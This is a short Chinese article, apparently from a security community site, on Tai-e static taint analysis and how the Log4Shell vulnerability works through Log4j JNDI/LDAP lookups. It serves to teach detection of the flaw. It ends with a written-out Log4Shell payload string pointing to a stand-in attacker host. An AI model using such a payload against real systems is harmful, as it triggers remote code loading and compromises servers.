 

# 太阿静态分析检测 Log4Shell - 先知社区

太阿静态分析检测 Log4Shell

- - -

## 0x01 Tai-e 的污点分析方案

Java 污点分析（追踪污点数据流）最令人头疼的两个难点：别名关系和动态反射。

Tai-e 污点分析提出一个基于指针分析的架构，来解决别名分析和反射分析两个问题。

**解决方案思路**：

-   将污点转换成对象，然后利用指针分析传播污点数据，这样自然地解决了别名关系
-   采用 2019 年提出的、目前推导能力最强的静态反射分析技术，来处理反射

## 0x02 Log4Shell 漏洞原理

日志方法：logger.error(str)

#### 2a Lookup 机制

将 ${...} 中的特定字符串映射到相应的值，举例如图所示。

| 表达式 | 解析值 |
| --- | --- |
| logger.error("${java:version}") | Java version 1.8.0\_292 |
| logger.error("${java:os}") | Windows 10 10.0, architecture: and64-64 |

通过 lookup 机制，让 log4j 的记录功能更加强大，跨平台性更强，还可以通过该机制输出环境信息而无需硬编码。

#### 2b JNDI Lookup

JNDI (Java Naming and Directory Interface):${jndi : ...}

-   Java 平台的一个标准扩展
-   通过绑定的概念将名称和对象联系起来：名称-->对象
    -   文件系统：文件名-->文件
    -   DNS：URL 地址-->IP 地址
-   提供了 "通过名称查找到相应对象" 的规范接口
-   实际的查找功能，交由具体的技术实现，比如 RMI、DNS、Corba、Ldap 等

#### 2c JNDI & LDAP Lookup

LDAP (Lightweight Directory Access Protocol):${jndi : ldap: ...}

-   一种目录访问协议，可用于在网络上访问和管理分布式目录服务
-   Log4j 将输入解析成远程地址，并发起请求
-   服务器响应请求

构造恶意 payload：${jndi : ldap://badman.io/Exploit}。
